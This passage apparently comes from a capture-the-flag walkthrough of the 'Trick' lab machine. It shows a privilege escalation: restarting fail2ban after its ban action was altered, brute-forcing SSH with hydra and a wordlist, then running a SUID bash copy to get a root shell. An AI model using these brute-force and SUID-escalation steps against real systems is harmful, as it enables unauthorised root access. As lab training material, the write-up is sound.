 Now Whenver someone tries to bruteforce any service configured with fail2ban it will execute the actionban and will result in gettin us a bash file in the tmp directory with SUID privs.

RESTART THE SERVICE

```jsx
michael@trick:/etc/fail2ban/action.d$ sudo /etc/init.d/fail2ban restart
sh: 0: getcwd() failed: No such file or directory
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```

BRUTEFORCING USING HYDRA

```jsx
hydra -l micheal -P /usr/share/wordlists/rockyou.txt ssh://10.10.11.166
```

AND NOW WE GOT OUR SUID BASH BINARY

```jsx
michael@trick:/tmp$ ls -al bash 
-rwsr-xr-x 1 root root 1168776 Jul  5 10:55 bash
```

```jsx
michael@trick:/tmp$ ls -al bash 
-rwsr-xr-x 1 root root 1168776 Jul  5 10:55 bash
michael@trick:/tmp$ ./bash -p 
bash-5.0# id; whoami
uid=1001(michael) gid=1001(michael) euid=0(root) groups=1001(michael),1002(security)
root
bash-5.0# 

```
